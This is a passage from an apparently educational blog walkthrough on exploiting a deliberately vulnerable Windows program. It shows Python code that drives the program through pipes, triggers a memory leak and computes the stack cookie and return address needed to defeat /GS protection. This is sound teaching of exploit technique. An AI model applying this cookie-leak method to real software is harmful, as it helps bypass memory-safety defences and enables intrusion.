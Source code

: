 As stated earlier, I use Pythons `subprocess` module in the exploit code to interact with the vulnerable program.  This class uses the underlying Windows API function `CreateProcess()` to handle the process creation and management.
By spawning a new process from the exploit code and connecting to the process's standard stream pipes, I was able to control the pace of the program.

The Popen constructor creates a new process in the background and opens a pipe to the executed program's / process's standard input/output/error streams.

```python
p = Popen(["C:\\blog\\vuln.exe"], stdin=PIPE, stdout=PIPE, stderr=PIPE)
```

When the program starts, it will wait for an integer from STDIN in `memleak()` representing the size of a loop that leaks memory.  The instance / object `p` can be used throughout the program to send data to stdin and read data from stdout and stderr.  Below we send data to the process's stdin with a newline attached.

```python
loop = 40
p.stdin.write(str(loop) + "\n")
```

Next, `memleak()` output is read from the stdout pipe of the running process and saved in `output`

```python
output  = p.stdout.readline().rstrip()
```

In the `main` code I pass `output` to a helper function `get_memleak_values(output)` I created that returns the addresses we need to construct the exploit / to help process the values in the leaked output we need to construct the exploit.

```python
addr = get_memleak_values(output)
```

To refresh, the copy of the stack cookie is found at the 17th address and the stack pointer is at the 8th address.  In the first line, I split the output on each space into a list of addresses where `memleak[0]` contains the `printf>` prompt and `memleak[1:]` contains the leaked addresses.  Therefore, the 17th address can be accessed directly in `memleak[17]` and so on.  The function returns the addresses as a tuple.

```python
def get_memleak_values(output):
  memleak = output.split(' ')

  eax = int(memleak[17],16) # index 17 = eax (stack cookie)
  ret = int(memleak[8],16)  # index 8 = return address (esp)
  ebp = ret - 0x8

  # Output memory leak and calculated registers/values
  print "{0} {1}\n{2}".format(memleak[0], 40, ''.join(x + " " for x in memleak[1:]))
  print "[*] Leaked addresses from memleak:"
  print "eax = 0x{:>08x}".format(eax)
  print "ret = 0x{:>08x}".format(ret)
  print "cookie = 0x{:>08x}\n".format(eax^ebp)  # eax ^ ebp = cookie

  # Return addresses as a tuple
  return (eax, ret)
```


[Section 1]: #overview-of-windows-mitigations "overview of mitigations"
[Section 2]: #vulnerability "GS vulnerability"
[Section 3]: #exploit-development
[Section 4]: #running-the-exploit
[earlier]: #overview-of-windows-mitigations "overview"
[2]: https://en.wikipedia.org/wiki/Buffer_overflow_protection#Random_XOR_canaries
[As previously discussed]: #prologue-and-epilogue "prologue and epilogue"
[previous section]: #leveraging-memleak-vulnerability "leveraging memleak vulnerability"
[next section]: #finding-return-address "finding return address"
[more on this later]: #running-the-exploit
[skip]: #results "skip to next section"
[1]: https://docs.microsoft.com/en-us/cpp/build/reference/gs-buffer-security-check